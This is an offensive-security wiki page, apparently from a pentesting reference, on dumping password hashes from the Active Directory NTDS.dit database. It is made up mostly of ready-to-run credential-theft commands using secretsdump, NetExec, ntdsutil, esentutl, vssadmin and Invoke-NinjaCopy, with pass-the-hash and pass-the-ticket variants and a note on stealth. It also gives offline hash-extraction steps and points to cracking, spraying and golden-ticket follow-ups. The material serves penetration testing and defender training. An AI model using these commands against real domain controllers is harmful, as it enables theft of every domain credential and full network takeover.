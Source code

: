 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1003.003
---
```


# NTDS secrets

## Theory

NTDS (Windows NT Directory Services) is the directory services used by Microsoft Windows NT to locate, manage, and organize network resources. The NTDS.dit file is a database that stores the Active Directory data (including users, groups, security descriptors and password hashes). This file is stored on the domain controllers.

Once the secrets are extracted, they can be used for various attacks: [credential spraying](../../../../../ad/movement/credentials/bruteforcing/password-spraying.md), [stuffing](../../../../../ad/movement/credentials/bruteforcing/stuffing.md), [shuffling](../../../../../ad/movement/credentials/credential-shuffling.md), [cracking](../../../../../ad/movement/credentials/cracking.md), [pass-the-hash](broken-reference), [overpass-the-hash](../../../../../ad/movement/kerberos/ptk.md) or [silver or golden tickets](../../../../../ad/movement/kerberos/forged-tickets.md).

## Practice

Since the NTDS.dit is constantly used by AD processes such as the Kerberos KDC, it can't be copied like any other file. In order to exfiltrate it from a live domain controller and extract password hashes from it, many techniques can be used.

Just like with [SAM & LSA secrets](broken-reference), the SYSTEM registry hive contains enough info to decrypt the NTDS.dit data. The hive file (`\system32\config\system`) can either be exfiltrated the same way the NTDS.dit file is, or it can be exported with `reg save HKLM\SYSTEM 'C:\Windows\Temp\system.save'`.

{% tabs %}
{% tab title="UNIX-Like" %}
### Secretsdump.py

[Impacket](https://github.com/SecureAuthCorp/impacket)'s [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python) can be used to remotely dump NTDS.dit through Volume Shadow Copy. Several authentication methods can be used like [pass-the-hash](../../../../../ad/movement/ntlm/pth.md) (LM/NTLM), or [pass-the-ticket](../../../../../ad/movement/kerberos/ptt.md) (Kerberos).

```bash
# Remote dumping of NTDS.dit using Shadow Copy
secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET' -use-vss -just-dc

# Remote dumping of NTDS.dit using Shadow Copy (pass-the-hash)
secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@DC_TARGET' -use-vss -just-dc

# Remote dumping of NTDS.dit using Shadow Copy
secretsdump.py -k -no-pass 'DOMAIN/USER@DC_TARGET' -use-vss -just-dc

# Offline dumping of NTDS.dit secrets from exported files/hives
secretsdump.py -system '/path/to/system.save' -ntds ntds.dit.save LOCAL
```

### NetExec

[NetExec](https://github.com/Pennyw0rth/NetExec) (Python) can also be used to remotely dump NTDS.dit through Volume Shadow Copy or NTDSUtil. It offers several authentication methods like [pass-the-hash](../../../../../ad/movement/ntlm/pth.md) (NTLM), or [pass-the-ticket](../../../../../ad/movement/kerberos/ptt.md) (Kerberos)

```bash
### Shadow Copy
# Remote dumping of NTDS.dit using Shadow Copy
netexec smb $TARGETS -d $DOMAIN -u $USER -p $PASSWORD --ntds vss

# Remote dumping of NTDS.dit using Shadow Copy (pass-the-hash)
netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --ntds vss

# Remote dumping of NTDS.dit using Shadow Copy (pass-the-ticket)
netexec smb $TARGETS -k --use-kcache --ntds vss

### NTDSUtil
# Remote dumping of NTDS.dit using NTDSUtil
netexec smb $TARGETS -d $DOMAIN -u $USER -p $PASSWORD -M ntdsutil

# Remote dumping of NTDS.dit using NTDSUtil (pass-the-hash)
netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -M ntdsutil

# Remote dumping of NTDS.dit using NTDSUtil (pass-the-ticket)
netexec smb $TARGETS -k --use-kcache -M ntdsutil
```

{% hint style="success" %}
In addition when using **NetExec** or **Secretsdump**, the `-exec-method` option can be set to `smbexec`, `wmiexec` or `mmcexec` to specify the remote command execution method on which the process should rely.
{% endhint %}
{% endtab %}

{% tab title="Windows" %}
### AD maintenance (NTDSUtil)

NTDSUtil.exe is a diagnostic tool available as part of Active Directory. It has the ability to save a snapshot of the Active Directory data. Running the following command will copy the NTDS.dit database and the SYSTEM and SECURITY hives to `C:\Windows\Temp`.

```bash
ntdsutil "activate instance ntds" "ifm" "create full C:\Windows\Temp\NTDS" quit quit
```

The following files can then be exported

* `C:\Windows\Temp\NTDS\Active Directory\ntds.dit`
* `C:\Windows\Temp\NTDS\registry\SYSTEM`

{% hint style="warning" %}
If the NTDS database is very large (several gigabytes), the generation of a defragmented backup with ntdsutil consumes a lot of CPU and disk resources on the server, which can cause slowdowns and other undesirable effects on the domain controller.
{% endhint %}

### Esentutl

Esentutl is a command-line tool that provides a database utilities for the Extensible Storage Engine (ESE). It can be used to copy a (locked) file using Volume Shadow Copy.

```powershell
esentutl.exe /y /vss c:\windows\ntds\ntds.dit /d c:\folder\ntds.dit
```

### Volume Shadow Copy (VSSAdmin)

VSS (Volume Shadow Copy) is a Microsoft Windows technology, implemented as a service, that allows the creation of backup copies of files or volumes, even when they are in use. The following command will create the shadow copy and will print two values that will be used later: the ID and the Name of the shadow copy.

```bash
vssadmin create shadow /for=C:
```

Once the VSS is created for the target drive, it is then possible to copy the target files from it.

```bash
copy $ShadowCopyName\Windows\NTDS\NTDS.dit C:\Windows\Temp\ntds.dit.save
copy $ShadowCopyName\Windows\System32\config\SYSTEM C:\Windows\Temp\system.save
```

Once the required files are exfiltrated, the shadow copy can be removed

```bash
vssadmin delete shadows /shadow=$ShadowCopyId
```

### Invoke-NinjaCopy

[Invoke-NinjaCopy](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1) is a PowerShell script part of the PowerSploit suite able to "copy files off an NTFS volume by opening a read handle to the entire volume (such as c:) and parsing the NTFS structures. **This technique is stealthier than the others.**

```bash
Invoke-NinjaCopy.ps1 -Path "C:\Windows\NTDS\NTDS.dit" -LocalDestination "C:\Windows\Temp\ntds.dit.save"
```
{% endtab %}

{% tab title="NTDS Parsing" %}
## Secrets dump

Once the required files are exfiltrated, they can be parsed by tools like [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python, part of [Impacket](https://github.com/SecureAuthCorp/impacket/)) or [gosecretsdump](https://github.com/c-sto/gosecretsdump) (Go, faster for big files).

```bash
secretsdump -ntds ntds.dit.save -system system.save LOCAL
gosecretsdump -ntds ntds.dit.save -system system.save
```

### NTDS Directory parsing and extraction

With the required files, it is possible to extract more information than just secrets. The NTDS file is responsible for storing the entire directory, with users, groups, OUs, trusted domains etc... This data can be retrieved by parsing the NTDS with tools like [ntdsdotsqlite](https://github.com/almandin/ntdsdotsqlite). With the NTDS alone, objects can be extracted from the NTDS such as user and machine accounts, with a lot of information about them: descriptions, user account control flags, last logon and password change timestamps etc. This information is stored as an SQLite database which is easier to browse and query.

With the `SYSTEM` hive available it is able to extract credentials as well: NT and LM hashes, supplemental credentials such as kerberos keys, cleartext passwords and password hash history.

```bash
ntdsdotsqlite ntds.dit -o ntds.sqlite
ntdsdotsqlite ntds.dit -o ntds.sqlite --system SYSTEM.hive
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.thehacker.recipes/ad/movement/credentials/dumping/ntds" %}

